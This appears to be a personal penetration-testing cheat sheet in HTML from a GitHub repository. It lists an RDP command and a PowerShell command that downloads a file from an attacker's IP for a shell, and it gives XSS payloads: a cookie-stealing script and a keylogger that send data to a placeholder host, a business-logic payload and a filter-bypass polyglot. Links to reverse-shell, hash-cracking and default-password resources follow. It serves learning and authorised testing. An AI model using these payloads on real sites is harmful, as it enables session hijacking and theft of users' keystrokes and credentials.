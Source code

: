 # pentesting_time
<h1>My pentesting cheat sheet, where I share "hotkey" tools and the same things.</h1>
There is a :
<ol>
	<li> <a href='https://github.com/Kode-n-Rolla/pentesting_time/tree/main/network_tools'>network tools</a>
  	<li> <a href='#n1'>command examples</a>
  	<li> <a href='#n2'>payloads</a>
  	<li> <a href='#n3'>helpful sites</a>
	<li> <a href='#n4'>tools</a>
	<!--<li> cheat sheet injections
  	<li> shells!-->
</ol>

<h2 id='n1'><em>Commands</em></h2> 
<h3>Remote Desktop Protocol (rdp)</h3>
  xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE_IP /u:User /p:'Password'
  <p>xfreerdp /v:10.10.38.213 /u:User /p:Password +clipboard
	
<h3>To get stable shell from unstable from PowerShell</h3>
  powershell -c "Invoke-WebRequest -Uri 'http://&lt;IP>:&lt;PORT>/&lt;filename>' -OutFile 'C:\Windows\Temp\&lt;filename>'"

<h2 id='n2'><em>Payloads</em></h2>
    <h3>XSS Payloads</h3>
    <li> <b>Proof Of Concept (PoC)</b> - <script>alert('Success XSS!');</script>
      <p>This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text "Success XSS".
    <li> <b>Session Srealing</b> - <script>fetch('url/steal?cookie=' + btoa(document.cookie));</script>
      <p>Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
    <li> <b>Key Logger</b> - <scripr>document.onkeypress = function(v) {fetch('url/log?key=' + btoa(v.key));}</script>
      <p>The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
    <li> <b>Business Logic</b> -  <script>user.changeEmail('your@email.com');</script>
      <p>This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail().
    <li><b>Polyglots</b> - jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Success XSS!'))//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Success XSS!')//>\x3e
      <p>An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.
	      
        
<h2 id='n3'><em>Sites</em></h2>
      <li> <a href='https://crackstation.net/'>crackstation.net</a> - online password hash cracker
      <li> <a href='https://www.base64encode.org/'>Base64</a> encode/decode
      <li> <a href='https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet'>Reverse Shell Cheat Sheet</a>
      <li> <a href='https://hashes.com/en/tools/hash_identifier'>Identify hash types</a>
      <li> <a href='https://devhints.io/bash'>Bash scripting</a> cheat sheet
      <li> <a href='https://gchq.github.io/CyberChef/'>CyberChef</a> - encode/decode service
      <li> <a href='https://www.kirsle.net/wizards/flask-session.cgi'>Flask Session Cookie Decoder</a>
      <li> <a href='https://viewdns.info/'>ViewDNS</a> Offers reverse IP Lookup. OSINT tool. 
      <li> <a href='https://www.shodan.io/'>ViewDNS</a> is the world's first search engine for Internet-connected devices. OSINT tool.
      <li> <a href='https://search.censys.io/'>Censys Search</a> Can provide a lot of information about IP addresses and domains. OSINT tool.
      <li> <a href='https://cirt.net/passwords'>CIRT.net</a> Dafault Passwords service
      <li> <a href='https://default-password.info/'>Default-Password.info</a> Dafault Passwords service
      <li> <a href='https://datarecovery.com/rd/default-passwords/'>Datarecovery.com</a> Dafault Passwords service
      <li> <a href='https://wiki.skullsecurity.org/index.php?title=Passwords'>This</a> wiki page includes the most well-known collections of passwords.
	      
        
<h2 id='n4'><em>Tools</em></h2>
	<ol>
		<li><h3><a href='https://www.kali.org/tools/ncurses-hexedit/'>Hexeditor</a></h3>
	        	<p> Tools for change files signature. <a href='https://en.wikipedia.org/wiki/List_of_file_signatures'>Link</a> to Wiki with List of file signatures. 
		<li><h3><a href='https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master'>Tool</a> for hash identification.</h3> 
			<p> Python file. Very useful.
		<li><h3><a href='https://www.kali.org/tools/crunch/'>Crunch</a></h3>
		   <p> This is one of many powerful tools for creating an offline wordlist. With crunch, you can specify numerous options, including min, max, and options. The following example creates a wordlist containing all possible combinations of 3 characters, including 1-5 and qwerty. You can use the -o argument to save. <p>Example: crunch 3 3 12345qwerty -o cranch.txt.
		<li><h3><a href='https://github.com/therodri2/username_generator'>Username generator</h3>
			<p>Could help create a list with most of the possible combinations if we have a first name and last name. Use git clone and python3 username_generator.py -h shows the tool's help message and optional arguments.
	</ol>
